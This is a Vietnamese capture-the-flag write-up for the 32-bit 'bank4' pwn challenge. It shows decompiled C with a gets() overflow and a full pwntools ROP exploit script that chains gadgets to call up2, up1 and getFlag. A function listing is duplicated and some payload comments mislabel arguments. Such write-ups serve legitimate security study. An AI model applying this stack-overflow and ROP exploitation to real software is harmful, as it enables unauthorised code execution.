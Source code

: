 # *bank 4*

## Task:
nc 61.28.237.24 30205

File: bank4

## Solution
Bài này cũng tương tư bài `bank3` khai thác trong hàm `Register` và overwrite return address

```c
void Register()
{
  char name[64]; // [esp+Ch] [ebp-4Ch] BYREF
  int balance; // [esp+4Ch] [ebp-Ch]

  balance = 0;
  printf("[+] Please enter your name: ");
  gets(name);
  printf("[+] Thanks for the registration, your balance is %d.\n");
}
```

```c
void __cdecl up1(int arg1, int arg2)
{
  if ( o2 && arg1 == 0x1337 && arg2 == 0xDEAD )
    o1 = 1;
}
```

```c
void __cdecl up1(int arg1, int arg2)
{
  if ( o2 && arg1 == 0x1337 && arg2 == 0xDEAD )
    o1 = 1;
}
```

```c
void getFlag()
{
  if ( o1 && o2 )
    system("cat flag.txt");
  else
    system("echo \"hcmasd-cft{nah_nah_nah_not_today}\"");
}
```

Trên đây là 4 hàm chính mà ta cần phân tích. Ta thấy trong hàm `getFlag` để in ra được `flag` phải pass được điều kiện `if` `o1` và `o2` bằng `1`

Như ở trên thì hàm `o1` được set bằng `1` trong hàm `up1` tương tự với `o2` trong hàm `up2`

vậy trước khi gọi hàm `getFlag` ta phải gọi hàm `up1` và `up2` để set `o1` và `o2`

tuy nhiên trong mỗi hàm `up` thì đều có kiểm tra điều kiện `if` với tham số truyền hàm. Ta để ý thì hàm `up1` sẽ kiểm tra điều kiện trong đó có `o2` phải bằng `1` cho nên ta sẽ gọi hàm `up2` xong rồi mới đến `up1`

Vì đây là file thực thi `32bit` cho nên đối tham số sẽ được truyền vào hàm thông qua stack

## Exploit
code python:

```python
from pwn import *

binary = context.binary = ELF('./bank4')
rop = ROP(binary)

pop_ebp_ret = rop.find_gadget(['pop ebp', 'ret'])[0]

p = process('./bank4')
#p = remote('61.28.237.24', '30205')

payload = b'A' * (0x4c + 4) # khoảng cách giữa biến name và return address
payload += p32(binary.sym.up2) # địa chỉ ham up2
payload += p32(pop_ebp_ret) # địa chỉ khối lệnh (pop ebp ; ret) -> này sẽ là return address sau khi gọi xong hàm up2
payload += p32(pop_ebp_ret) # địa chỉ khối lệnh (pop ebp ; ret) -> tham số đầu tiên của hàm up2
payload += p32(pop_ebp_ret)  # địa chỉ khối lệnh (pop ebp ; ret) -> tham số thứ 2 của hàm up2
payload += p32(0x12345678)  # -> tham số thứ 3 của hàm up2
payload += p32(binary.sym.up1) # -> địa chỉ của hàm up1
payload += p32(binary.sym.getFlag) # -> địa chỉ của hàm getFlag
payload += p32(0x1337) # -> tham số thứ nhất của hàm getFlag
payload += p32(0xDEAD) # -> tham số thứ hai của hàm getFlag



f = open('solve.txt', 'wb')

f.write(payload)

p.sendline(payload)

p.interactive()


```

bài này ta sử dụng hàm `rop` của pwn tool để lấy giá trị địa chỉ tại những instruction

đầu tiên ta tìm địa chỉ của khối lệnh `pop ebp; ret` 

Lí do ta không truyền hàm hai tham số đầu tiên của hàm `up2` là hai số mà là địa chỉ của khối lệnh `pop_ebp_ret`
bởi vì sau khi thực hiện xong hàm `up2` thì chương trình sẽ lần lượt gọi tiếp những địa chỉ tiếp theo trên stack

Ta gọi lần lượt sẽ là gọi pop_ebp_ret khi khối lệnh này thực hiện sẽ pop khỏi stack 1 giá trị chinh là tham số đầu tiên của hàm `up2`

Tiếp theo đó chương trình trả về và sẽ gọi `pop_ebp_ret` chính là tham số thứ 2 của hàm `up2` vì tham số thứ nhất đã được `pop` ra khỏi stack. Hàm này sẽ pop tham số thứ 3 của hàm `up2` 0x12345678 ra khỏi stack

sau đó gọi hàm `up1` và làm tương tự ...

# Chạy Script
vì server đã đóng nên mình tiến hành khai thác local với file flag.txt HCMUSCTF{bank4}

![image](https://user-images.githubusercontent.com/31529599/120054739-e6b34f80-c05b-11eb-9d52-b094be01af50.png)

Xong!


